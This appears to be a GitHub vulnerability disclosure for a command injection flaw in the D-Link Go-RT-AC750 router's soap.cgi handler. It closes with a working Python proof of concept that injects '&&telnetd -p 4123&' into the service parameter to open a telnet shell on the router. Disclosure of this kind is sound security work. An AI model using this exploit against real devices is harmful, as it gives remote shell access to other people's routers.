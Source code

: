# Go-RT-AC750 Command Injection Vulnerability
## General Information
Vendor: D-Link

Affected Product: Go-RT-AC750

Firmware version: revA_v101b03

Vendor Homepage: https://www.dlink.com/en/consumer

## Vulnerability description
This vulnerability is found in function `soapcgi.main`. The function first try to get pointer to the `service` parameter in url and store it in `v14`:
![](assets/IMG_1.png)
![](assets/IMG_2.png)
Later, the parameter is joined into the format string via `sprintf` function and stored in to string `byte_435CD0`, which is used as the argument of the `system` function, causing the command injection. 
![](assets/IMG_3.png)

## PoC

```python
from socket import *
from os import *
from time import *

request = b"POST /soap.cgi?service=&&telnetd -p 4123& HTTP/1.1\r\n"
request += b"Host: localhost:49152\r\n"
request += b"Content-Type: text/xml\r\n"
request += b"Content-Length: 88\r\n"
request += b"SOAPAction: a#b\r\n\r\n"
 
s = socket(AF_INET, SOCK_STREAM)
s.connect((gethostbyname("192.168.0.1"), 49152))
s.send(request)
 
sleep(10)
system('telnet 192.168.0.1 4123')

```
![](assets/poc.png)




